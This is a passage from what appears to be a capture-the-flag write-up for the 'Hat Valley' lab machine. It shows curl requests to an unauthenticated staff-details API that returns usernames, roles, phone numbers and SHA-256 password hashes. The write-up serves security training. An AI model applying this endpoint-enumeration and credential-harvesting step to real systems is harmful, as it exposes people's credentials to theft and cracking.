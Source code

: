 <figure><img src="../../../.gitbook/assets/image (36) (8).png" alt=""><figcaption></figcaption></figure>

I wasn't sure how to exploit this yet. Looking at the `src/services` scripts within Webpack, we can find more endpoints like `/api/staff-details`. When visited, it returns a bunch of hashes without a token:

```
$ curl http://hat-valley.htb/api/staff-details -H "Cookie: token=test"
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>JsonWebTokenError: jwt malformed 
<TRUNCATED>

$ curl http://hat-valley.htb/api/staff-details  | jq .
[
  {
    "user_id": 1,
    "username": "christine.wool",
    "password": "6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",
    "fullname": "Christine Wool",
    "role": "Founder, CEO",
    "phone": "0415202922"
  },
  {
    "user_id": 2,
    "username": "christopher.jones",
    "password": "e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",
    "fullname": "Christopher Jones",
    "role": "Salesperson",
    "phone": "0456980001"
  },
  {
    "user_id": 3,
    "username": "jackson.lightheart",
    "password": "b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",
    "fullname": "Jackson Lightheart",
    "role": "Salesperson",
    "phone": "0419444111"
  },
  {
    "user_id": 4,
    "username": "bean.hill",
    "password": "37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",
    "fullname": "Bean Hill",
    "role": "System Administrator",
    "phone": "0432339177"
```
